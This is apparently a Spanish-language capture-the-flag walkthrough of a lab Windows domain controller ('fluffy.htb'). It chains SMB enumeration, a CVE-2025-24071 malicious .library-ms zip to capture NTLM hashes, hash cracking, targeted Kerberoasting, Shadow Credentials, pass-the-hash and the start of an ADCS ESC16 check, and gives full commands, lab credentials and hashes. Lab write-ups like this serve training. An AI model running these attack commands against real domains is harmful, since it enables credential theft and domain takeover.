# Credentials
Nos dan estas credenciales para empezar el pentest.
```bash
j.fleischman:J0elTHEM4n1990!
```
# Scan
Empezamos realizando un escaneo con nmap ``nmap -p- -sV -sC -T 5 --min-rate=5000 10.129.7.213 -oN scan``
```bash
 nmap -p- -sV -sC -T 5 --min-rate=5000 10.129.7.213 -oN scan
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-25 11:23 +0100
Stats: 0:01:17 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 68.42% done; ETC: 11:25 (0:00:23 remaining)
Nmap scan report for 10.129.7.213
Host is up (0.036s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-02-25 17:24:13Z)
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-02-25T17:25:44+00:00; +6h59m58s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
|_ssl-date: 2026-02-25T17:25:45+00:00; +6h59m59s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-02-25T17:25:44+00:00; +6h59m58s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
|_ssl-date: 2026-02-25T17:25:45+00:00; +6h59m59s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49698/tcp open  msrpc         Microsoft Windows RPC
49703/tcp open  msrpc         Microsoft Windows RPC
49713/tcp open  msrpc         Microsoft Windows RPC
49734/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 6h59m58s, deviation: 0s, median: 6h59m58s
| smb2-time: 
|   date: 2026-02-25T17:25:04
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 125.74 seconds
```
## Smb
Enumeramos los shares para ver si hay algo interesante.
``nxc smb 10.129.7.213 -u 'j.fleischman' -p 'J0elTHEM4n1990!' --shares``

Como tenemos permisos en los shares vamos a inspeccionarlos, nos conectamos ``smbclient //10.129.7.213/IT -U 'j.fleischman%J0elTHEM4n1990!'`` y listamos los archivos. 

Enontramos esto en el pdf:


Explorando estas vulnerabilidades vemos que esta nos puede ser util CVE-2025-24071
# CVE-2025-24071
https://github.com/ThemeHackers/CVE-2025-24071
El fallo consiste en que se crea un archivo zip malicioso que contiene un archivo .library-ms que apunta a nuestra ip en vez de a una carpeta real entonces cuando se abre lo que hace es conectarse automáticamente sin preguntar al usuario a nuestra ip dándonos el ntlm hash del usuario. 
Creamos el archivo malicioso ``python exploit.py -i 10.10.16.174 -f archivo``


Nos ponemos a la escucha con responder ``sudo responder -I tun0 -dwv``
Ahora lo subimos a smb para que la victima lo ejecute.

Y recibimos el siguiente ntlm en responder:

```bash
p.agila::FLUFFY:9c2fd6c375322f3b:DEF45EC10998F69705E1446926C8412D:0101000000000000008B371166A6DC016B84DD646D929ABE0000000002000800310033003500550001001E00570049004E002D004A004B0031005200530057004A0041004A005900480004003400570049004E002D004A004B0031005200530057004A0041004A00590048002E0031003300350055002E004C004F00430041004C000300140031003300350055002E004C004F00430041004C000500140031003300350055002E004C004F00430041004C0007000800008B371166A6DC0106000400020000000800300030000000000000000100000000200000A2B73D1A5254B544B92F853DC57E12FB5BC9EA88C7EA81AA27E0F7ACFCAAE8CF0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310036002E003100370034000000000000000000
```
Ahora vamos a crackear el hash con hashcat ``hashcat -m 5600 agila_nt /usr/share/wordlists/rockyou.txt``


``p.agila:prometheusx-303``
## Bloodhound
Ahora vamos a enumerar el equipo con bloodhound
``bloodhound-python -d fluffy.htb -u 'j.fleischman' -p 'J0elTHEM4n1990!' -gc DC01.fluffy.htb --zip -c All -ns 10.129.7.213``
Al ver el user p.agila vemos que somos miembros de *service account managers* y que tenemos *generic all(control total)* sobre *service accounts* por lo que tenemos generic write sobre las cuentas de servicio como *winrm_svc*

Primero sincronizamos el reloj de nuestro equipo con el de la maquina para  atacar. ``sudo ntpdate 10.129.7.213``
### TargetKerberoast
Como somos miembros de *service account managers* vamos a agregarnos al grupo *service accounts*
```bash
net rpc group addmem "SERVICE ACCOUNTS" "p.agila" -U "FLUFFY.HTB"/"p.agila"%"prometheusx-303" -S 10.129.7.213
#comprobamos que nos añadimos correctamente
net rpc group members "SERVICE ACCOUNTS" -U "FLUFFY.HTB"/"p.agila"%"prometheusx-303" -S 10.129.7.213
```
Ahora como somos miembros de *service accounts*  y tenemos *generic write* sobre *winrm_svc* podemos realizarle un target kerberoast es decir le asignamos un spn y luego le solicitamos un tgs
```bash
python targetedKerberoast.py -v -d 'fluffy.htb' -u 'p.agila' -p 'prometheusx-303'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (ca_svc)
$krb5tgs$23$*ca_svc$FLUFFY.HTB$fluffy.htb/ca_svc*$a03117d8ae2e7491619f9823387ee133$17c6338314a2f6b0d665fa55d8bcb38a85380c3614dd51bc3108aa9abe7c4f4208eb7fa0909003b48ba44a3961a6edae2f4580d985c19feeebb6e2b797fe7020f54f4ba86312949600b90cd39a27e61b5085e9be990f3f691475784ecaa658fead3d1aeb58bc68b253be29f6e42d13ebf94fcbf9ed867a07c0ac3cb3bb65a1f0cb33be806482873affa8c5736e12b93a7579317445b04474ef3e2439fa304fe2ab8d66e5c2662cdd8ac3c136197c9ed135385ab7d068a0345fb4bd9bcb3a3d527a9670ef0eee24126caf1b10f9bb04bd2832dd298c811d3b35a3a80326532968d1cce49262d1c54abc3f8de3f7e0e95425ee5376abe87573701fcadf79ad5c0203849c7cc9b65d4ff014d8e0944de6fe5600b7a17408fcbc934c0334511fcb49317d62f05d7c6578005a3caf9f701b02848dfc1d3eeddabc760f4cd08a90be8b868249b110ee57d576d6b83b0a455a6c5b7b7636d79736d8bfe642ee9688171ad0f124fd29b2d0bf0117d510aa5f82e03d64ddc483201b38a5e14ac7b30210ee7eef5104b8db3550433673d3b201eb5f3a636c8826747892d595dd074b4121bdf79a6c08d9f038fb3f6e093cdfba3d3c71eb4f3aa4ed01f245d22cedce615768521359a803f930aa2ace0d072b6613805cdd684bbb736f25577ac5a32cbf0261eaff7e802b7121fdf601e7d540715392b4b6734411bca16f6bffa4ffedb9bed92097edf68fd70d2866da938a7e09d1c6a50ee4e77fc4a5d402794119e982827751f7556e0272d8e4572456b033c63e915ed709fb88f98193632b1b9a090d89786e8b086242452177d7cebb65115cc8dca1c1df874b7a9fe1487636df817398d46f6116145eff66bd6262947ab1220af693848994315e0a2be128258d678b6f1750b5a28613f4e9cbd5f88e2aa3d938d4a3dfb5d2f24c827053486f4864f1c77adeb3c8b1afa7204d74286ea81e036d0d14aae7bdf1bbbbbecde0ec366e9d29917fb3e270c848e76ed71304beca4d8110ad201a44e7d69a4b1a4e49948efc81d31cd2a02f8073e02283384f4fa3082dda8be28a325a1cb02df2636e9069a9855710e1cfea308eef4dd84178f60b2f89a948174ae64b01d05701dbdeafc6eae541a018a4510565ed9b45edb1dd5bc8cd9242c3a93c4cd6e25e46fddd3087cf3693504422d10a43fcb1e75aa4990bb5ae8d4d69e8dfeeb50ca1f6964a0bc453c241e624b1dc961400213dc4823f6a4f5e39f09b1f2ce4b9e616db23bebc29693a7b620d189366311156cf88c8fa61f64397a6e2113ac8180d37f1dbcf09e0a1a2fd0e22b515d4f9d4e222f87e887b0b974d261aaaf866ec821f9b204f43a96e4b784262f3aa168468cd7887b957bf69e5f13029ccd1660b5e9e2ec0a26efba9a8626f8fd1c9d26a3cfa579dc89ce0a92deb315edea725da5657e68a59011e47c23fd0fbe7abb1db35d471115aa51a80a52f8054d52a86e5c88f34afcc32c07cf0980421
[+] Printing hash for (ldap_svc)
$krb5tgs$23$*ldap_svc$FLUFFY.HTB$fluffy.htb/ldap_svc*$af0e4a4f5defdcf7a9d86b44ab4ee7e0$cff2e2e9b7a307eb0207e5099c917698f75cc0fac57be279a8139287482e4112178e79509bbae2dad52915a1bf8277471b262737d3daac7381905cb069d7fcf702b9fff5fc48962ff2fb8f6c60eded102004eab0f9e7c407fc1880d7d2d1a345d00ef7ce8fc9dd38d342f6c78e1db8abbe5cd1bde3acb238abeef4e472d421bdea374834fb7cf5f7a1ecb94d8d12da2efc45b650231ac8f98e9656c6517d37a01cfa896f0e553b3e3ab8a5880eb82520980acf965b7715972b9f0e49f1474baaf0f971afe033e71c31a674c8fb478eca401a021e7b0c9529f23f892bf471dd1f23ff314efe4adf2a970cfe8bfced9326aef9543a9bda23cffa448db9cbdbc84721068ec061c7b28a4e2ee064aa2e08b0d47d93df8765bff8dad4a5e58cabc240c0f200bc200627d0074835ac389f5bae30891c9fcde7ae4097b5ae0ae541bb94869f5183d01aed2b4f7d5f4c79948eb34ff31985a27239f170f8362dde3fcfdd98ded6ac8069475ebe7cd793d282b9fd1bf18bb7285e1f82368609a3f5ac79293443e21e6f1ace728a6c68ec5d6ae5de51be39ba46053f45ed7bf953bc73d5158cb23ad84d70145bf47cb84ac0c5d8539922a16475c750b722b13f8b6b9daa7e3328841058eb91f0b262a9b6463fa70badcead2743eddc8b6795772f10bbc8307ff11032f76ba9156c80deaf4911f1b7fdf9accbe2bbb1a9d702d29e7a67676dec91f56acc5a3caa3858e877e8dd1f4c9cfe877153fb9f757cf0524ce6c45c241fbc9e595e48c46095e376a0ef1639dae9d7b32002edd7a94eaddbc706aad7dd3d4623a1a25abe4d117490986b932eb6acb89b5ceaee57790543c6c653a34735ecf029d7c56cb737b8aeb51ac457f840d0534d191bae6c1c46761e9a388dd49452910a79de586659ae1ca9b7100ffbefa807d582247c499457811d2bad4f83e1e67acd69563756f1e4af0ee0cf4ce5e3153644500ff81d7bb9bd52eb2700b9fd1c5668aa6c85d5c8569adc83de3b217fd4b996789e0a89d88a178cc980c02f92f164a602ab58170480fac837919cca2bb80e986087c987f538ff95a54f426c87138ae16106af5c6ac6332c1ef685fb319d43cecf4734af135ca1efbc0ad391c84347c3e491d33d943818b8f3682ea7c970aa2c41e18256cdc4e63a69fc9a363ceb01dd7d7b902e2d8438f42605b329666ca8bd80c20896f73c80fb3439404cb557cb2de64bbad7802ddfbd1e1cb603dd152d289e93a2913c5f30f98e508e21b7014671a2cd0e89a037322899cd923eacfd91521abfd940a649ccd3ce4fe25b0149429b03c1f896ef880d4bb506747a605ded15fb1bceb97d88c50fd2c8b9f0e22d42db6351b91a90a5964d27a0b4f9834d5afe252c581196f25440b5ed946424c7f1d1c71a7e187a9108e7fce4c4bd1fb451d8f5e6c9c4359d9099c117922f97a282e085197d585e5536e909e7377ecc4a1ae8f58d909624fd8087ffb66f17058ae7
[+] Printing hash for (winrm_svc)
$krb5tgs$23$*winrm_svc$FLUFFY.HTB$fluffy.htb/winrm_svc*$6d82917206855855117f1e0b0e93f6c8$cf2cc32ac37a4e7f098102961e9e2a8698ab9e872070c6f5a7f07bbff6e61cba7bd3dde2e2a74eea7ec56bcf0cf233b7212c948351f895fa88c9f4e354e9361e587764ba71ad55e99ec22f9d31f1ede9d6cd99ba5323b218bd00d60b95b9bf34a581105155e4385bfeb0cc87620dcb56b6b8b93ed70b06ec94cf268037beeae8d418e3033df5c8142087c623117d01b52d315f684222059fcad6af18cc276fc36992213af3d0987306a88535a921677d300955961e1aa6a6ede9afae9dc5c95c722132b029f0897b22da24d9ed61799f8eef2600ac383644e3dfcb75be754804b80b4fc8b6f92402a92900fde6ece82f649321e335c2ac2a18d79c73fbd44880468ecc183fe2c39a0b342310ca72632775ab0ce3520d7d76e1f33e9c245884a2f31645f83a508f88655c6f82b1e31748823971254b380e1ea846c5e1f66d65d35ed2a888b7025eab431b12d91413ac563bd9a8ba070bd46a83e871d8c6d83b8ee22bb95dc865f9bdbdd69c465e99a1d94793deb8a1fadf8bafbf6a0d21e9d08a19978eeaf33f2d9787aeecf9d7a99929c46980e26d5fc36a8ba7851d6f156fc0028f0cf2ba2b9d7a3720f6e7d4aa7ddc5abe65552726e5f3f0f59691d3474d5e0342d97c83dfaec3c69a6c1baaf3eaf44827381cf7b9abd923bfac0944773530c63be83135dd1d3968ac9dd5ea5bca34da74b29fe76b1e072ac14e321be6e058247217bff2da064cc2dfe0e6fa1de28a2874a49b899e6d7e2056b0f56c7d80b651003ef16e4ceb60180a174212f272fb1b13e6c5c8bedd73829a3d52d6848c19a771f293d53694ab01d63813d091b58b4bf9aecd93cb6b17064b5be288eaa8bd892cfb43e3059e4e87384ae9388337fe076a4eba6bb7b6baddf634256073061d86c4e1993e8a5c42017cf84f170b907093e3ba5ffb93f6c300f108152754e9fcf914c90945dd9bb00fcbe18fb8810815bc519a0b6fdf1fde898504430c6cb75771e5afa5f1ab031ba71048fc94a1b4a6f3763fe9090be1a21ec78848989e6e0fc9346e4981f0c6d7236e594473787fa7d9b79005258496f2e857358edf740bcd808ed25e07f22ef8b01386ea2690555675f4389b25e9a677ae665d8230953f314031725bf317bd11b708f985ecd068b9b7f64061146d71d4449550023314eb4ec68be12c5a15d23c26e464c5b9c63826847ea48350812b46cd503bf298d23f5228a031497eaabea360eb295f6f28a094318448424a1c16a6e9a6c2b4a14fc7c8b438f6e27977312126df5fa44f0c602dd2a86532d2583ff163d7fad4afd05598aa29ba57a3149d89b779e6a8fc106104f826efd5cd44a7950a2268e3e1ae1b57e946b7cedc725d1763567853046f6c158f9df7780aae8c469e22f52ed363535cec321c094ba5263a9e3b677d79787bff1d7e305b64288144531129f63e823c959817a842d39ffdc30cc56c1c5fadc5a3e8b1570bc7e23929d42fcdf57e921d719f59
```
Ahora vamos a intentar crackear de manera local **winrm_svc**
`` hashcat -m 13100 winrm_svc /usr/share/wordlists/rockyou.txt``
Y no somos capaces de crackearlas por lo que vamos a intentar otro tipo de ataque.
## Shadow Credentials attack - winrm_svc
https://github.com/ShutdownRepo/pywhisker
https://github.com/dirkjanm/PKINITtools
Como tenemos permisos dobre **winrm_svc** podemos editar sus atributos entonces editamos con pywhisker *msDS-KeyCredentialLink* este es el que usa windows hello for bussines(pin/huella dactilar) lo que permite la autenticación del usuario mediante claves criptográficas en lugar de contraseña pywhiskers genera un par de claves criptográficas y guarda la publica en el server y la privada en el .pfx
``pywhisker -d "fluffy.htb" -u "p.agila" -p "prometheusx-303" --target "winrm_svc" --action "add" --dc-ip 10.129.7.213``

Ahora con **gettgtpkinit**  usamos la clave privada(.pfx) para autenticarnos contra el servidor y este nos devuelve un TGT y la clave AS-REP encryption key.
``gettgtpkinit -cert-pfx "SJPyj1j1.pfx" -pfx-pass "JljYb7skrzdy8EjKZ60v" -dc-ip 10.129.7.213 "fluffy.htb/winrm_svc" winrm_svc.ccache``


Ahora con **getnthash**, usamos el ticket y la clave AS-REP para realizar una petición U2U (User-to-User) al propio usuario. Como la autenticación fue por certificado (PKINIT), el DC incluye el NTLM hash dentro del PAC del ticket por compatibilidad con sistemas antiguos. La herramienta simplemente lo extrae de ahí.
```bash
export KRB5CCNAME=winrm_svc.ccache
getnthash -key "9e3d852448a22a52351b9fabbeb4741f27bb317610c5dbb31bbf5be421e89851" "fluffy.htb/winrm_svc"
```



``winrm_svc:33bd09dcd697600edf6b3a7af4875767``
Ahora nos conectamos con evilwinrm realizando un pass-the-hash: ``evil-winrm-py -i 10.129.7.213 -u "winrm_svc" -H "33bd09dcd697600edf6b3a7af4875767"``
Y en el desktop encontramos la user 
# Privesc - ADCS(ESC16)

## Shadow Credentials attack with certipy- sa_svc
Como también podíamos conseguir acceso a la cuenta del **ca_svc** la encargada de gestionar los certificados.Hacemos lo mismo que con el usuario **winrm_svc** pero esta vez voy a usar certipy-ad que nos automatiza el proceso.
```bash
#Esto es lo equivalente a lo anterior pero para el usuario ca_svc usando certipy
net rpc group addmem "SERVICE ACCOUNTS" "p.agila" -U "FLUFFY.HTB"/"p.agila"%"prometheusx-303" -S 10.129.7.213
certipy-ad shadow auto -u 'p.agila'@'fluffy.htb' -p 'prometheusx-303' -account 'ca_svc'
```

## ESC16
Tras obtener el control de la cuenta ca_svc mediante Shadow Credentials, procedemos a ver si se puede explotar la vulnerabilidad ESC16 en la Entidad Certificadora para suplantar al administrador del dominio.
Para ver si es vulnerable vamos a usar:
``certipy-ad find -u 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.129.7.213 -vulnerable``
